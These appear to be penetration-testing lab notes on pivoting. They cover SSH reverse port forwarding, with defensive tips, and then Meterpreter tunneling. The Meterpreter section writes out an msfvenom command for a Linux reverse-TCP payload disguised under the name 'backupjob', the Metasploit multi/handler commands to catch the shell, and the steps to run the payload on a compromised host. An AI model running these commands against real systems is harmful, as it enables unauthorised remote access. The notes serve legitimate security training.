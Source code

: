 **Key Takeaways**:
- **Reverse Port Forwarding**: Uses `-R` to map a pivot host’s port to a local service on the attacker’s machine.
- **Use Case**: Enables internal hosts to access attacker-hosted services (e.g., payloads) via the pivot host.
- **Practical Steps**:
  - Host a service (e.g., Python web server) on the attacker's machine.
  - Use `ssh -R` to forward the service to the pivot host.
  - Access the service from the target via the pivot host’s IP and port.
- **Verification**: Use `netstat` on the target to confirm connections to the pivot host’s SSH service.

**Security Tips**:
- Restrict SSH access on pivot hosts (e.g., key-based authentication, IP whitelisting).
- Monitor pivot host for unusual port bindings or incoming connections.
- Block unnecessary outbound traffic from internal hosts to pivot host ports.
- Audit pivot host’s network interfaces to limit exposure to internal networks.

**Limitations**:
- Requires SSH access to the pivot host.
- Pivot host must allow port binding for reverse forwarding.
- Target must be able to reach the pivot host’s forwarded port.

### Notes on Meterpreter Tunneling & Port Forwarding

**Overview**:
- Focuses on using Meterpreter (Metasploit’s post-exploitation tool) for tunneling and port forwarding through a compromised Ubuntu pivot host to access internal network services, without relying on SSH.

**1. Establishing a Meterpreter Session**:
- **Objective**: Gain a Meterpreter shell on the pivot host (Ubuntu server, e.g., 10.129.202.64) to enable pivoting.
- **Steps**:
  - **Generate Payload**:
    - Command: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=8080 -f elf > backupjob`
    - Creates a reverse TCP payload (`backupjob`) for Linux x64, connecting back to the attack host (10.10.14.18:8080).
    - Payload size: 130 bytes, ELF file: 250 bytes.
  - **Set Up Multi/Handler**:
    - Commands:
      ```
      msf6 > use exploit/multi/handler
      msf6 exploit(multi/handler) > set lhost 0.0.0.0
      msf6 exploit(multi/handler) > set lport 8080
      msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > run
      ```
    - Starts a reverse TCP handler on 0.0.0.0:8080 to catch the Meterpreter session.
  - **Transfer and Execute Payload**:
    - Copy `backupjob` to the Ubuntu pivot host via SSH.
    - Execute: `ubuntu@WebServer:~/backupjob`
    - Result: Meterpreter session established (e.g., 10.10.14.18:8080 → 10.129.202.64:39826).
- **Key Insight**: The Meterpreter session provides a robust platform for post-exploitation tasks, including pivoting and tunneling.
